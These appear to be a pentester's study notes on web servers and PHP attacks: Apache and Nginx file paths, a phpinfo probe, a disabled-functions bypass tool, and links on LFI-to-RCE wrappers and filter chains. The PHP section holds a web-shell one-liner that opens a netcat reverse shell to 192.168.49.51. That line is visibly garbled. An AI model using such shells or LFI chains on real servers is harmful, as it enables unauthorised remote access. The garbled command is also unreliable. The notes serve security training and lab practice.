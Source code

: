 # Web Servers & Languages

## Apache

Find out which OS it's running on first from nmap scan

```
Root: /var/www
for multiple vhosts root is /var/www/[site1] and goes on
Vhost config: /etc/apache2/sites-enabled/000-default.conf
.htaccess and .htpasswd are at root of server
```

{% embed url="https://cwiki.apache.org/confluence/display/httpd/DistrosDefaultLayout#DistrosDefaultLayout-Apachehttpd2.4defaultlayout(apache.orgsourcepackage):" %}

## Nginx

{% embed url="https://www.howtogeek.com/devops/how-to-find-your-nginx-configuration-folder/" %}

## PHP

{% code title="Lethal one-liner" %}
```php
"<?php system('rm /tmp/f;mkfifo /tm&1|nc 192.168.49.51 8001>/tmp/f'); ?>"
```
{% endcode %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/LFI-to-RCE.md" %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/Wrappers.md" %}

Try to use PoC exploit (phpinfo) first before attempting shell, this will also provide a lot of info

```
<?php phpinfo(); ?>
```

{% embed url="https://github.com/teambi0s/dfunc-bypasser" %}

To find disabled functions on PHP website

`python2 dfunc-bypasser.py --url [path to phpinfo page]`

Wrappers to look out for:

* filter (view source)
* phar (LFI2RCE)
* zip (LFI2RCE)

If there is an input field where it fetches a file and you control that parameter, you can view the source of php file itself or the apache log for LFI2RCE

#### Filter Chains

{% embed url="https://github.com/synacktiv/php_filter_chain_generator" %}

{% embed url="https://exploit-notes.hdks.org/exploit/web/php-filters-chain/" %}

{% hint style="info" %}
Watch PHP deserialization
{% endhint %}

{% embed url="https://sushant747.gitbooks.io/total-oscp-guide/content/local_file_inclusion.html" %}
